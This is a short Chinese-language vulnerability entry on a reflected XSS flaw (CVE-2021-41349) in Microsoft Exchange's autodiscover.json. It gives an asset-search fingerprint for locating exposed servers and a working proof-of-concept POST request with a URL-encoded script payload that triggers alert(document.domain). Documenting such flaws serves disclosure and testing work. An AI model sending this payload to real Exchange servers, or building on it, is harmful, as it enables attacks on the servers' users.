 # Microsoft Exchange autodiscover.json 反射型XSS CVE-2021-41349

## 漏洞描述

Microsoft Exchange  autodiscover.json 文件中存在反射型XSS，由于其中过滤不足而导致

## 漏洞影响

<a-checkbox checked>Microsoft Exchange</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1768726119"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1637288762813-e6dfc1ae-30b5-4aae-bd47-f21c11fe820d.png)

验证POC

```python
POST /autodiscover/autodiscover.json

%3Cscript%3Ealert%28document.domain%29%3B+a=%22%3C%2Fscript%3E&x=1
```

![img](../../../.vuepress/public/img/1637288842810-502b9dc4-ce91-4217-8ec2-05cc530cac38.png)